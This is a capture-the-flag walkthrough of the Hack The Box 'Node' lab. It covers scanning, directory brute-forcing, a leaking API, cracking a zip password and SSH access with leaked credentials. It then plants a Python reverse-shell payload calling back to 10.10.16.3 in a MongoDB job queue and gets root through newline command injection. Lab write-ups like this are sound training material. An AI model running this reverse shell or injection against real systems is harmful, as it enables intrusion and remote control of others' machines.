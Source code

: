 # [Node](https://app.hackthebox.com/machines/node)

We do rustscan.
```bash
rustscan 10.10.10.58
```

![Alt text](img/image.png)

We find open ports (22,3000), let's do nmap scan.

```bash
nmap -sC -sV -p22,3000 10.10.10.58 -Pn
```

![Alt text](img/image-1.png)


Directory brute-forcing.

```bash
ffuf -u http://10.10.10.58/FUZZ  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -mc 301
```


We find interesting directoies, which redirects into main page.

That's why let's user Spider tool of OWASP ZAP tool.

Even, we find 'app.js' file.

![Alt text](img/image-2.png)


After, we getting to application, we find '/api/users/' endpoint that have usernames and password hashes.

![Alt text](img/image-3.png)

From here ,we grab admin user's username and password hash.

username:myP14ceAdm1nAcc0uNT
password:dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af


Here's admin password.

![Alt text](img/image-4.png)


We have valid credentials. ( myP14ceAdm1nAcc0uNT: manchester)


After login to system, we download backup file.

From file metadata we understand that it is encoded via base64 format.

let's decode this.

```bash
base64 -d myplace.backup > backup.zip
```


When we want to unzip , it asks password from us.

That's why we need to brute-force for correct password.For this , we will use **fcrackzip** tool.

```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip
```

![Alt text](img/image-5.png)

On, app.js , we find hard-coded credentials for mark user.

![Alt text](img/image-6.png)

We have credentials mark:5AYRft73VtFpc84k

Let's check this credentials for ssh.

![Alt text](img/image-7.png)


It works, now we are mark user.


Let's upload 'pspy64' tool into **'/tmp' directory**. for identifying hidden cronjobs and background processes.



![Alt text](img/image-8.png)


Here, we find interesting process that execute /var/scheduler/app.js file.

We read this file's content.

![Alt text](img/image-9.png)


Let's connect to this database.

```bash
mongo scheduler -u mark -p 5AYRft73VtFpc84k
```

After login to db, we see that there is **no document** for 'tasks' table in 'scheduler' db.

![Alt text](img/image-10.png)


Let's add our malicious document which is reverse shell payload.

```bash
db.tasks.insert({cmd: "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.3\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"})
```

![Alt text](img/image-11.png)


After, we wait for reverse shell. we got 'tom' user.

![Alt text](img/image-12.png)


Let's spawn interactive shell.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
```

Put some modifications on shell.
```bash
export TERM=xterm
export SHELL=bash
```

user.txt

![Alt text](img/image-13.png)



After some enumeration, we see that we can make command injection to backup file to be root user.

The denylist of characters is pretty extensive, but it missed on that will work to command inject into system. A newline in system will work just like it does in a Bash script, breaking commands. I can try just putting a newline, then /bin/bash to see if that will run. I’ll enter this by entering a ', then hitting enter to get a newline, and then entering /bin/bash and then closing the ' and hitting enter


Method should be like **below IMAGE**. As because,

It’s the zip command, and it’s clear that the output is being passed to /dev/null. I’ll try with an additional newline:

![Alt text](img/image-14.png)


root.txt

![Alt text](img/image-15.png)